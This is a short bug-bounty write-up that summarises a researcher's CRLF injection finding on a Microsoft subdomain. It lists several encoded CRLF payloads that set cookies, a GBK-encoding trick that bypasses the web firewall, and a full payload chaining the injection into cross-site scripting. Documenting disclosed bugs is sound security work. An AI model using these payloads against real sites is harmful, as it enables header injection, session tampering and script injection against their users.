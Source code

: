 # $6000 with Microsoft Hall of Fame ⚔️

1. Let’s test for the most ignored vulnerability CRLF INJECTION
<br>&nbsp;

2. I tried with some different payloads, but I was only getting “400 Bad Request”
```
%0D%0A%20Set-Cookie:whoami=thecyberneh
%20%0D%0ASet-Cookie:whoami=thecyberneh
%0A%20Set-Cookie:whoami=thecyberneh
%2F%2E%2E%0D%0ASet-Cookie:whoami=thecyberneh
```
&nbsp;

3. I did little research and got some unique encoding called “GBK encoding”. so after URL encoding, I crafted and tried a new payload like this:
```
https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=thecyberneh
```
And Boom!!!<br>
![20230324-1.png](../images/20230324-1.png)
<br>&nbsp;

4. CRLF TO XSS with Firewall Bypass
```
ENCODING
“<” --> 嘼 --> %E5%98%BC
“>” --> 嘾 --> %E5%98%BE
https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
```
![20230324-2.png](../images/20230324-2.png)


## Credit
Based on [Neh Patel](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
